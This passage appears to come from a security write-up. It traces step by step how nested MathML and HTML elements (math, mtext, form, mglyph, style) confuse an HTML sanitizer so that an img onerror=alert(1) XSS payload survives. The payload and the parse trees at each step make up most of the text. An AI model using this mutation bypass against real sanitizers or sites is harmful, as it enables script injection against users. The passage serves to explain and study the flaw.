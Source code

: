 Sanitizer processes the first element:

`n = form`

```html
<math>
   <mtext>    
      <form>     
         <mglyph>        
            <style>
</math>
<img src onerror=alert(1)>
</style>
</mglyph>
</form>
</mtext>
</math>
```

Namespaced interpretation:

```
<math> [MathML]
  <mtext> [MathML]
    <form> [HTML]
      <mglyph> [HTML]
        <style> [HTML]
          </math>
<img src onerror=alert(1)>
        </style> [HTML]
      </mglyph> [HTML]
    </form> [HTML]
  </mtext> [MathML]
</math> [MathML]
```

Next, we remove `<math>`, removing the MathML namespace, but the closing `</math>` remains.

`n = math`

```html
<mtext>
   <form>
      <mglyph>
         <style></math><img src onerror=alert(1)></style>
      </mglyph>
   </form>
</mtext>
```

Rendered as:

```html
<mtext> [HTML]
  <form> [HTML]
    <mglyph> [HTML]
      <style> [HTML]
        </math><img src onerror=alert(1)>
      </style> [HTML]
    </mglyph> [HTML]
  </form> [HTML]
</mtext> [HTML]
```
